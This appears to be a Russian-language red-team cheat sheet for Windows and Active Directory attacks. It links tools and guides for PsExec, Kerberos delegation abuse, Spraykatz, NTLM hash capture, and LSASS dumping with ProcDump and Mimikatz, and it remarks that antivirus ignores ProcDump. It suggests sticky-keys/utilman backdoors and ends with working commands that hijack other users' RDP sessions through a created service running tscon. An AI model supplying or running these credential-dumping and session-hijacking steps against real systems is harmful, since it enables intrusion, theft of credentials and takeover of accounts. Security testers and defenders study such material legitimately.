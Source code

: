 \\\\\\\\\\\\\\\\\\\\\\

### [PSexec](https://windowsnotes.ru/cmd/psexec-utilita-dlya-udalennogo-vypolneniya-komand/)

[usage](http://winitpro.ru/index.php/2010/09/22/utilita-psexec-i-udalennoe-upravlenie-sistemami/)

\\\\\\\\\\\\\\\\\\\\\\

### Неограниченное делегирование

[пошаговое руководство](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html) по использованию Impacket и Kerberos для делегирования вашего пути к DA

\\\\\\\\\\\\\\\\\\\\\\

### [Spraykatz](https://github.com/aas-n/spraykatz)
- это инструмент без каких-либо усилий, способный извлекать учетные данные на машинах Windows и в больших средах Active Directory.

\\\\\\\\\\\\\\\\\\\\\\

### [capture_ NTLM_hash](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)

\\\\\\\\\\\\\\\\\\\\\\

### [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) 
используется для извлечения дампа LSASS, который позже перемещается на автономный компьютер с Windows 10 и [анализируется](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330) с помощью Mimikatz . Это по-прежнему эффективный метод извлечения учетных данных из Windows 10, поскольку ProcDump является двоичным файлом Microsoft и по этому всем антивирусам на него пох... чо радует)))

Пдробно: [TYT](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-dump-ntlm-hashes-crack-windows-passwords-0198268/)

\\\\\\\\\\\\\\\\\\\\\\

### RDP Hijacking

If you have SYSTEM context on a host, you can assume the RDP sessions of other users without credentials using the tscon.exe command.

Gain access to cmd.exe to issue the tscon.exe command over RDP by creating a backdoor with Stickkeys or Utilman. Use scheduled tasks (as SYSTEM) or create a service to execute the desired command.

[RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)
```
	# View RDP sessions on system your RDP'd to with administrative permissions
	# Locally
	quser

	# Remote
	quser /server:<servername>

	# Create a service that will swap your SESSIONNAME with the desired disconnected session 
	sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#XX" error= "ignore"

	# Start service
	net start sesshijack
	or
	sc start sesshijack
```
